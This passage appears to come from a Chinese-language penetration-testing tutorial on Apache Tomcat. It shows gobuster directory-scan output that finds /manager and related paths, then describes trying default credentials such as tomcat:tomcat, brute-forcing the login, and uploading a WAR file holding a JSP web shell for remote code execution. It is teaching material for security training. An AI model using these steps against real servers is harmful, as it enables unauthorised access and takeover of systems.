[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/09/21 17:34:54 Starting gobuster
===============================================================
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)
Progress: 49959 / 87665 (56.99%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2021/09/21 17:44:29 Finished
===============================================================
```

我们或许可以使用弱口令（比如 tomcat:tomcat、admin:admin 等）尝试登录其中某个后台。如果最初几次尝试不成功，我们还可以对登录页面进行密码暴力破解，这部分内容会在下一节讲解。一旦登录成功，我们就可以上传包含 JSP 木马的 [WAR 包（Web Application Archive/Web Application Resource）](https://en.wikipedia.org/wiki/WAR_(file_format)#:~:text=In%20software%20engineering%2C%20a%20WAR,that%20together%20constitute%20a%20web)，从而在 Tomcat 服务器上实现远程代码执行。

现在我们已经了解了 Tomcat 的结构和功能，让我们通过滥用内置功能并利用影响特定 Tomcat 版本的一个众所周知的漏洞来攻击它。
